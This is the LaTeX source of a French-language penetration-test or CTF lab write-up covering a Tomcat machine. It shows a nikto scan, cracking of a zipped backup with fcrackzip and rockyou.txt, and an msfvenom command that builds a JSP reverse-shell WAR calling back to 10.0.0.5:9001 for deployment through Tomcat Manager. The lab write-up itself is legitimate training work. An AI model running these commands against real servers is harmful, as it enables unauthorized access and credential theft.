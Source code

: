 \documentclass[11pt,a4paper]{article}
\begin{document}
\section{Machine 5 — Tomcat}

\subsection{Découverte}
Nikto identifie un fichier \texttt{backup.zip} accessible sans authentification.
\begin{shellbox}
nikto -h http://target
fcrackzip -D -p rockyou.txt -u backup.zip
\end{shellbox}
L'archive est protégée par mot de passe ; \texttt{fcrackzip} le craque en quelques minutes via dictionnaire.

\subsection{Obtention du shell}
Un fichier WAR contenant un reverse shell est généré avec Metasploit, puis déployé via Tomcat Manager (identifiants extraits du backup) :
\begin{shellbox}
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=10.0.0.5 LPORT=9001 -f war > shell.war
\end{shellbox}

Le déploiement réussit et un shell utilisateur \texttt{jerry} est obtenu.

\subsection{Limite}
\begin{warnbox}[title={\faExclamationTriangle~Élévation non aboutie}]
Malgré de nombreuses tentatives (énumération SUID, exploits kernel, sudo, capabilities), l'élévation vers \texttt{root} n'a pas pu être réalisée dans le temps imparti. Le flag utilisateur a néanmoins été récupéré dans \texttt{/home/jerry/}.
\end{warnbox}

\section{Synthèse des compromissions}
\end{document}
